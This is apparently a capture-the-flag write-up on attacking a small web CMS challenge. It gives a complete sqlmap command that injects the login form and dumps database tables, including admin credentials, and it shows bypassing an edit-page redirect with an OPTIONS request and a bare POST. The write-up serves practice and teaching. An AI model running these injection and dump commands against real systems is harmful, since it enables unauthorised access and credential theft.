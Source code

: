 It requires to login to create or edit page, the login page seems injectable.

```
sqlmap -u http://34.74.105.127/239c7507f5/login --method POST --data "username=FUZZ&password=" -p username --dbs --dbms mysql --regexp "invalid password" --level 2 --dump --random-agent
```

Found admin credential in sqlmap output ``admins.csv``. After login, found one flag. 
In another output of sqlmap ``pages.csv`` there is another flag.

Try to edit or create a page, but it always redirect to login page. check what options are allowed for editing page.

```
  http OPTIONS http://35.190.155.168/cf116e4cb3/page/edit/2
```

How about a post request.
```
  curl -XPOST http://35.190.155.168/cf116e4cb3/page/edit/2
```
Now we get a flag in response.
